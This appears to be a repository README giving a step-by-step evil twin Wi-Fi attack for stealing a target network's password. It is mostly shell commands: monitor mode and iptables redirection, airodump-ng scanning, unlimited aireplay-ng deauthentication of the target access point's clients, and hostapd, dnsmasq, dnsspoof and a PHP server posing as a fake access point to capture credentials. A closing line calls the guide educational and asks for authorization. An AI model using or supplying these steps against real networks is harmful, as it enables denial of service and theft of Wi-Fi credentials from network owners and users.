 
# Evil Twin Attack Guide

This guide explains how to conduct an evil twin attack to obtain the password for a target network.

![](eviltwin.jpg)

*Note: you need a network card capable of packet injection for this attack*

git clone the repo and follow the steps below.

## Step 1: Install required software 

```bash
# Update package lists and install required software 

sudo apt-get update 
sudo apt-get install hostapd dnsmasq apache2 php-cli

```


## Step 2: Configure the network interface

```bash

# Put the wireless interface into monitor mode 
sudo airmon-ng start wlan0 

# Check the monitor mode interface name 
iwconfig

# Bring up the wireless interface and assign an IP address
# CHANGE THE INTERFACE NAME ACCORDINGLY

ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0

# Add a route to the target network
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1

# Configure NAT to allow traffic to pass through the interface
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT

# Redirect traffic to port 80 to the fake AP
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1

# Save the rules
sudo service iptables save

``` 


## Step 3: Find the target network


```bash
# Use airodump-ng to find the target network 

airodump-ng wlan0
```

## Step 4: Deauthenticate clients from the target network

```bash
#Use aireplay-ng to deauthenticate clients from the target network 

sudo aireplay-ng --deauth 0 -a <mac-address-of-target-AP> wlan0

```

## Step 5: Start the attack

*Note: the .conf file are provided in the repo. Make sure you change the interface name and the ssid in these files*

Each of the following commands is to be run on a separate terminal

```bash
# Start the hostapd service with a configuration file 

hostapd hostapd.conf  

# Start the dnsmasq service with a configuration file 

dnsmasq -C dnsmasq.conf -d  

# Start the dnsspoof service on the wireless interface 

dnsspoof -i wlan0mon  

# Start a PHP server on all interfaces listening on port 80 

cd webserver

php -S 0.0.0.0:80

```

Note: This guide is for educational purposes only and should not be used for malicious purposes. It is important to always obtain proper authorization before conducting any security testing.

